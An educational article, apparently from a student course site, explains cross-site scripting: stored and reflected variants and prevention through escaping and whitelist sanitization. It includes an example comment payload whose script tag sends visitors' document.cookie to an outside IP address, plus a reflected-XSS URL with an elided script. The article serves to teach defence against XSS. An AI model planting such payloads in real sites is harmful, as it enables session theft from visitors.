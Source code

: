 # Cross Site Scripting

Author: [Tan Wang Leng](https://github.com/nus-oss/cs3281-website/tree/master/students/AY1617S2/tanWangLeng/TanWangLeng-Resume.md)

## Overview

Cross site scripting (XSS) is a vulnerability found in websites.

Text boxes are commonly used in forms in websites to ask the user for input. For
example, blog websites may provide a text box for visitors of the blog to enter comments.

However, are commenters limited to just typing in plain text? Some websites do not
check the input, thus commenters are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italicizing.

```html
I <b>like</b> your blog post!
```

becomes: I **like** your blog post!

The problem arises when the commenter starts using HTML for malicious purposes. For
example, HTML also supports `<script>`, for you to write JavaScript code on the
webpage as well.

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

While visitors of the blog will only see the non-script portion of the
comments (i.e. `This is an innocent looking comment.`), the browser will not
show the script portion of the comment, because it is legal HTML (you won't see
the tags like `<b>` and `<i>` when viewing webpages, so you definitely won't see
`<script>` on the webpage).

However, the browser is **actually executing the script**, without the visitor even being aware of what's going on.

This means that any malicious users (i.e. hackers) can write a script on their comments, such that everyone that visits the website will have the script executed. The script can be malicious in nature (in our example, the script sends the cookie of the visitor to the hacker).

Therefore, the hacker has managed to add additional malicious "functionality" to the website, that is not intended by the original website developer.

> Trivia: The term "Cross Site Scripting" is actually an old term. It originally describe an attack whereby hackers write malicious JavaScript scripts on a separate website, and injects it into the victim's website, in order to steal data from the victim's website/deface the page (hence "Cross Site"). Such attacks are no longer possible today, and the modern definition of "Cross Site Scripting" includes attacks that do not need to be on a separate website to work.

## Types of Cross Site Scripting

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The JavaScript code gets stored in
the web server. Example: Posting a malicious JavaScript code into a blog post as
a comment. The comment gets stored in the database, and the web browser of future visitors of the
webpage will retrieve the comment from the database, resulting in execution.

* Non-persistent XSS (also known as reflected XSS) - The JavaScript code is
inserted in URL/links of website that accepts URL parameters as input. The input
is therefore not stored in a database.

An example of a non-persistent XSS attack would be an e-card website that displays an e-card to a visitor of the website. The e-card can be customised by modifying the `content` parameter of the URL:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays`

However, that also means that hackers are able to also include scripts in their e-card content. They can send this URL to victims, hoping that they will click on them, resulting in the scripts being executed:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays<script>...</script>`

## Preventing Cross Site Scripting

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* Escaping String Input: By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).

* Whitelist Sanitization: By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

## Resources

References:

1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 32 & 33)
(Basic description of the XSS attack taken from here)
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_and_Reflected_XSS_Attacks
(Description of the two types of XSS attack taken from here)
1. http://blog.jeremiahgrossman.com/2006/07/origins-of-cross-site-scripting-xss.html
(Origin of the name "Cross Site Scripting")

Additional Reading Resources:

1. https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
(How to test your website for XSS attacks)
1. https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet
(A list of possible preventions, which contains even more ways to protect your site from XSS attacks).
1. http://guides.rubyonrails.org/security.html#cross-site-scripting-xss
(In-depth discussion of how XSS attacks work, the different possible scenarios of such attacks, and possible preventive measures)
1. https://www.owasp.org/index.php/DOM_Based_XSS
(Discussion about DOM-based XSS attacks, a third possible type of XSS attacks)
1. https://excess-xss.com/
(Comprehensive coverage of *all* aspects of XSS)

Additional Resources:

1. https://github.com/OWASP/java-html-sanitizer (Java Sanitization framework)
(Implementation of HTML sanitization in Java)
1. https://github.com/rails/rails_xss
(Ruby on Rails plugin responsible for escaping String input in Ruby on Rails websites)
1. http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html
(Ruby on Rails HTML sanitization function)
